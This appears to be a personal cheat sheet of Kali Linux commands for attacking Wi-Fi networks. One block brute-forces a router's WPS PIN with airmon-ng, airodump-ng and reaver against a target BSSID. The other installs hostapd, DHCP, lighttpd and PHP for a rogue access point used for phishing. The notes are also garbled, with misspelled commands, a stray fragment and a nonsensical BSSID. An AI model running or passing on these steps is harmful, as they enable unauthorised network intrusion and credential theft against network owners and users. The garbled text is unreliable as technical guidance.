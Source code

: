 =============================kali 1.9=== RIVE BROTEFORCE PIN=======================
ifconfig eht0 up

airmon-ng start wlan0

airodump-ng mon0


reaver -i mon0 --bssid 3432 -c 6 -p 848646464 -vv









==========================PHISHING S BRUTEFORCE==================kali linux 2.0 == wifislax========
apt-get update

apt-get install dhcpd

apt-get install isc-dhcp-server

apt-get install lighttpd

apt-get install hostapd 

apt-get install php-cgi 
bez 5

apt-get upadete

